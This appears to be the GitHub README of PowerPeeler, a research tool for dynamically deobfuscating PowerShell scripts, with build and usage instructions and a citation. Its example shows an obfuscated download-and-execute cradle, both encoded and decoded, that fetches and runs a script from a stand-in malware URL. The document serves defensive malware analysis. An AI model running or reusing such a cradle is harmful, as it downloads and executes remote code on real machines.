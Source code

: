 # PowerPeeler

>A Precise and General Dynamic Deobfuscation Method for PowerShell Scripts

[中文版](README.zh-CN.md)



### Related resources

- conference paper: in coming
- full paper: [arxiv](https://arxiv.org/abs/2406.04027)



### Usage

1. Build environment requirement

   - base environment: refer to [PowerShell official build instruction](https://github.com/PowerShell/PowerShell#building-the-repository)
   - .net core 7.0.101
   - pwsh/powershell

2. Runtime environment

   - PSScriptAnalyzer(optional, for code formatting)
   - [Invoke-Deobfuscation](https://gitee.com/snowroll/invoke-deobfuscation)(optional, static and dynamic combination)

3. Get the tool

   ```bash
   git clone https://github.com/zhengbili/PowerPeeler
   ```

   Or

   ```bash
   git clone https://gitee.com/snowroll/powerpeeler
   ```

4. Compile sandbox

   ```powershell
   cd PowerPeeler
   pwsh ./build.ps1
   ```

5. Tool usage

   1. Change the directory to prevent some malicious scripts from polluting the current directory: ```cd sandbox```
   2. Enter special pwsh environments: ```../pwsh```
   3. Execute anti-obfuscation scripts in the special pwsh environment

   ```powershell
   ../Deobfuscation/deob.ps1 --SettingType [Simple|Analysis|SemanticAnalysis]  --InputPath InputFileLocation --OutputPath OutputFileLocation [-cmd] [-log]
   ```
   ​	```-st --SettingType```	deobfuscation mode, with several presets, the code can be modified yourself
   ​	```-ip --InputPath```	input file location
   ​	```-op --OutputPath```	output file location
   ​	```-cmd --IsCmd```	cmd one-line mode
   ​	```-log --SaveLog```	save log



### Example

```../pwsh ../Deobfuscation/deob.ps1 -ip in.ps1 -op out.ps1```

- in.ps1

  ```powershell
  Ie`X ("{2}{0}{1}" -f 'ost h', 'ello', 'write-h')
  $xdjmd  =   'aAB0AHQAcABzADoALwAvAHQAZQBzAHQALgBjAG'
  $lsffs =   '8AbQAvAG0AYQBsAHcAYQByAGUALgB0AHgAdAA='
  $sdfs = [Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($xdjmd + $lsffs))
  .($psHoME[4]+$PShOmE[30]+'x') (Ne`W-oB`JeCt Net.Web`C`lient).downloadstring($sdfs)
  ```

- out.ps1

  ```
  Write-Host ([string]'hello')
  $xdjmd = ([string]'aAB0AHQAcABzADoALwAvAHQAZQBzAHQALgBjAG')
  $lsffs = ([string]'8AbQAvAG0AYQBsAHcAYQByAGUALgB0AHgAdAA=')
  $sdfs = ([string]'https://test.com/malware.txt')
  .'Invoke-Expression' (New-Object ([string]'Net.WebClient')).DownloadString(([string]'https://test.com/malware.txt'))
  ```



### Citation format

```
@misc{li2024powerpeelerprecisegeneraldynamic,
      title={PowerPeeler: A Precise and General Dynamic Deobfuscation Method for PowerShell Scripts}, 
      author={Ruijie Li and Chenyang Zhang and Huajun Chai and Lingyun Ying and Haixin Duan and Jun Tao},
      year={2024},
      eprint={2406.04027},
      archivePrefix={arXiv},
      primaryClass={cs.CR},
      url={https://arxiv.org/abs/2406.04027}, 
}
```



